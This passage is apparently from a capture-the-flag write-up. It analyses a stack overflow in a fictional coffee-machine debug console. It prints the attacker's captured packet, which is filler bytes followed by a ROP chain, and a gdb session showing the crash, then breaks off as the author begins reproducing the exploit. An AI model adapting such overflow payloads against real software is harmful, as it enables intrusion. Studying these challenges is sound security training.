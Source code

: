read_buffer allows the client to send up to 2048 bytes in a 28 byte buffer hence leading to a stack overflow that the attacker clearly exploited if we look at their packet (26 filler bytes plus two ("5 ") make 28 bytes until saved return address):

>```
>0000   35 20 41 41 41 41 41 41 41 41 41 41 41 41 41 41  5 AAAAAAAAAAAAAA
>0010   41 41 41 41 41 41 41 41 41 41 41 41 10 4e 0b 08  AAAAAAAAAAAA.N..
>0020   3c 50 10 08 00 d9 16 08 40 93 11 08 50 50 0c 08  <P......@...PP..
>0030   3c 50 10 08 c7 d8 16 08 00 00 00 00 b0 51 0c 08  <P...........Q..
>0040   3b 50 10 08 03 00 00 00 08 d9 16 08 17 00 00 00  ;P..............
>0050   90 93 04 08 3c 50 10 08 00 d9 16 08 07 00 00 00  ....<P..........
>0060   90 93 04 08 3c 50 10 08 00 d9 16 08 09 00 00 00  ....<P..........
>0070   90 93 04 08 3c 50 10 08 00 d9 16 08 0b 00 00 00  ....<P..........
>0080   90 93 04 08 3c 50 10 08 00 d9 16 08 0d 00 00 00  ....<P..........
>0090   90 93 04 08 3c 50 10 08 00 d9 16 08 0f 00 00 00  ....<P..........
>00a0   90 93 04 08 3c 50 10 08 00 d9 16 08 11 00 00 00  ....<P..........
>00b0   90 93 04 08 3c 50 10 08 00 d9 16 08 13 00 00 00  ....<P..........
>00c0   90 93 04 08 3c 50 10 08 00 d9 16 08 15 00 00 00  ....<P..........
>00d0   90 93 04 08 3c 50 10 08 00 d9 16 08 17 00 00 00  ....<P..........
>00e0   90 93 04 08 3c 50 10 08 00 d9 16 08 19 00 00 00  ....<P..........
>00f0   90 93 04 08 3c 50 10 08 00 d9 16 08 1b 00 00 00  ....<P..........
>0100   90 93 04 08 3c 50 10 08 00 d9 16 08 1d 00 00 00  ....<P..........
>0110   90 93 04 08 3c 50 10 08 00 d9 16 08 1f 00 00 00  ....<P..........
>0120   00 73 09 08 0a                                   .s...
>```

Since the application has a non-exec stack the attacker had to build a ROP-chain which is clear from the sequence of DWORDs (all of which are valid addresses in our binary) following the filler buffer. Running the program in gdb confirms this:

>```
>0xC0FF33 Inc. EX-3825
>
>** DEBUG CONSOLE ***
>[1] Test brew
>[2] Show system status
>[3] Verify serial integrity
>[4] Dispense tea
>[5] Quit
>
>Your choice: 3
>[?] Number of trust bytes?
>5 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>[i] Okay, 5 bytes coming up
>38fd30d7441a1bd1490a2ba91f0e4a73495640d7
>
>Program received signal SIGSEGV, Segmentation fault.
>0x41414141 in ?? ()
>```

Let's reproduce the exploit by extracting the ROP chain from the attacker's packet and reverse-engineering the ROP gadgets:
